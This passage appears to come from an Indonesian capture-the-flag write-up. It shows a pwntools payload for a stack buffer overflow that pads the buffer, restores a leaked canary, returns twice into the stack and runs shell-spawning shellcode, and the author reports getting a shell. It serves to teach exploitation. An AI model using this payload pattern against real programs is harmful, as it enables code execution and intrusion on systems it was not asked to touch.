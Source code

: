 ![Output](https://abdullahnz.github.io/assets/images/asgama_5.png)

Selanjutnya dilakukan pembuatan payload. Flow paylaod: `padding + canary + return address ke alamat stack 2 kali + shellcode`.

```py 
   payload = b''.join([    
      "A"*(0x136),
      p32(canary),
      p32(stack_address+0x136+12),
      p32(stack_address+0x136+12),
      asm(shellcraft.sh())
   ])
```

Run exploit dan didapatkan shell.

![Shell](https://abdullahnz.github.io/assets/images/asgama_5s.png)

Solver bisa dilihat [disini](https://github.com/abdullahnz/abdullahnz.github.io/blob/master/_posts/solver/solver_soal.py).

## Notes
Sebagian solver diatas dibuat dengan bantuan dari pwntools yang bisa didownload [disini](https://github.com/Gallopsled/pwntools).

## Referensi
1. *https://www.tutorialspoint.com/assembl.. [(klik)](https://www.tutorialspoint.com/assembly_programming/assembly_conditions.htm)*
2. *https://en.wikipedia.org/wiki/Endianness [(klik)](https://en.wikipedia.org/wiki/Endianness)*
